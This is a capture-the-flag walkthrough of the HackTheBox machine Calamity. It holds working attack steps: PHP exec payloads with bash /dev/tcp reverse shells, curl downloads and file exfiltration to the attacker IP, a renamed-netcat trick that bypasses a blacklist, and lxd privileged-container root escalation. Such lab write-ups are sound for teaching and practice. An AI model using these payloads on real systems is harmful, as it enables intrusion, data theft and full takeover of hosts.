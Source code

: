 Nmap scan

```
sudo nmap -sV -sC -oA nmap 10.10.10.27
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumarating HTTP

We have this website:

![image1](/assets/images/htb-calamity/calamity1.png)

I used gobuster to find hidden files and directories and I find this:

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.27 -x txt,php -t 40
/uploads (Status: 301)
/admin.php (Status: 200)
```

`/uploads`:

![image2](/assets/images/htb-calamity/calamity2.png)

`/admin.php`:

![image3](/assets/images/htb-calamity/calamity3.png)

### Enumearting the admin page

I try to login, and I send the request to burp, and in the response there's the password

![image4](/assets/images/htb-calamity/calamity4.png)

After loggin in with this password I have this:

![image5](/assets/images/htb-calamity/calamity5.png)

We have and HTML intepreter

![image6](/assets/images/htb-calamity/calamity6.png)

We can use php too:

![image7](/assets/images/htb-calamity/calamity7.png)

![image8](/assets/images/htb-calamity/calamity8.png)

Next thing I'm going to try to ping back my machine back with:

```
<?php exec("/bin/bash -c 'ping -c 2 10.10.14.17'"); ?>
```

And I get the 2 pings back:

```
sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:26:30.151873 IP 10.10.10.27 > ubuntu: ICMP echo request, id 6199, seq 1, length 64
07:26:30.151898 IP ubuntu > 10.10.10.27: ICMP echo reply, id 6199, seq 1, length 64
07:26:31.144792 IP 10.10.10.27 > ubuntu: ICMP echo request, id 6199, seq 2, length 64
07:26:31.144818 IP ubuntu > 10.10.10.27: ICMP echo reply, id 6199, seq 2, length 64
```

After that I try to get a shell with: 

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.17/9001 0>&1'"); ?>
```

But it dies after getting it, next thing I try is to download files and put them on the `/uploads` directory:

```
<?php exec("/bin/bash -c 'curl http://10.10.14.17/rev.sh > uploads/rev.sh'"); ?>
```

I can't get a reverse shell so the next thing I'm going to do is start enumarating the box using burp and repeater

![image9](/assets/images/htb-calamity/calamity9.png)

Then I find the user `Xalvas` has a directory in `/home` that has a file called `intrusions`:

![image10](/assets/images/htb-calamity/calamity10.png)


### Getting a reverse shell

So our tryes to get a reverse shell are getting blacklisted, to bypass this blacklist we are going to copy nc to another path and change the name, and then we will do the typical nc reverse shell but with the new name:

First let's copy nc to another directory:

![image11](/assets/images/htb-calamity/calamity11.png)

Add permissions to execute:

![image12](/assets/images/htb-calamity/calamity12.png)

After that set up a listener and do the reverse shell with the new nc:

![image13](/assets/images/htb-calamity/calamity13.png)

And we have a shell:

```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.10.27 42740
/bin/sh: 0: can't access tty; job control turned off
$   
```

### Enumerating xalvas home directory

There's recov.wav

```
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27  2017 recov.wav
```

And in /home/xalvas/alarmclocks are more

```
-rw-r--r-- 1 root   root   3196668 Jun 27  2017 rick.wav                        │
-rw-r--r-- 1 root   root   2645839 Jun 27  2017 xouzouris.mp3
```

So i transfered this files to my machine because probably there's a stego technique used here

```
/dev/shm/re 10.10.14.17 9003 < recov.wav
nc -lvnp 9003 > recov.wav
```

```
/dev/shm/re 10.10.14.17 9003 < rick.wav
nc -lvnp 9003 > rick.wav
```

```
/dev/shm/re 10.10.14.17 9003 < xouzouris.mp3
nc -lvnp 9003 > xouzouris.mp3
```

Now i open it on audacity, import the recov.wav and rick.wav, then select effect-invert and there's a voice that will say things

![calamity](/assets/images/htb-calamity/calamity14.png)

The voice says some numbers and then the password is 185, so the password is 18547936..*

Now i'll ssh into xalvas user

```bash
ssh xalvas@10.10.10.27
```

And now the privesc

```bash
id
----131(lxd)----
```

lxd is for containers, and there's a vulnerability that we can use it to run as root

### Exploiting lxd container

I'll download alpine builder

```bash
git clone https://github.com/saghul/lxd-alpine-builder
```

```bash
sudo ./build-alpine -a i686
```

And now transfer it

```bash
scp alpine-v3.12-i686-20200911_0436.tar.gz xalvas@10.10.10.27:
```

Now let's do the process to get root user

```
mkdir privesc
cd privesc/
mv ../alpine-v3.12-i686-20200911_0436.tar.gz .
lxc image import alpine-v3.12-i686-20200911_0436.tar.gz --alias alpine
lxc image list
+--------+--------------+--------+-------------------------------+------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+------+--------+-------------------------------+
| alpine | c4d146e61042 | no     | alpine v3.12 (20200911_04:36) | i686 | 3.06MB | Sep 11, 2020 at 11:46am (UTC) |
+--------+--------------+--------+-------------------------------+------+--------+-------------------------------+
lxc init alpine c3t -c security.privileged=true
lxc config device add c3t host-root disk source=/ path=/mnt/root/
lxc start c3t
lxc exec c3t /bin/sh
~ # cd /mnt/root/root
```






